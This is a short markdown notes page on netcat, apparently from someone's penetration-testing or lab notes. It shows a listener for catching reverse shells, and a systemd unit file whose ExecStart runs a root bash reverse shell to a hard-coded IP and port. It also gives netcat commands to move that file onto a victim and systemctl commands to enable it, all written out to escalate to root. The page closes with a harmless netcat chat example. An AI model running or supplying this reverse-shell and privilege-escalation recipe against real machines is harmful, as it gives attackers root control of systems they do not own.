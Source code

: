 # Netcat

Install ```sudo apt install ncat```

## Example 1

Start netcat listening on e.g. port 1234

``` sh
nc -lvnp 1234
```

Once payload is triggered netcat will open a reverse shell:

![netcat_injecttest](_netcat_injecttest.jpg)

## Example 2

Create 0xfab1.service in /temp/

``` txt
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.193.173/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

- move file to /temp/ of www-data from attacker box:
 -on victim: ```nc -vl 44444 > fab.service```
- on attacker:  ```nc -n TargetIP 44444 < fab.service```
- on attacker now start a new netcat session on 9999: ```nc -lvnp 9999```

Now use systemctl on victim machine and we should be root from the attacker box:

``` sh
/bin/systemctl enable /tmp/fab.service
/bin/systemctl start fab
```

## Chat between two users

User 1 (with IP 10.9.182.239) runs this command:

``` sh
nc -l -p 3303
```

Other chat user then runs this command:

``` sh
nc 10.9.182.239 3303
```
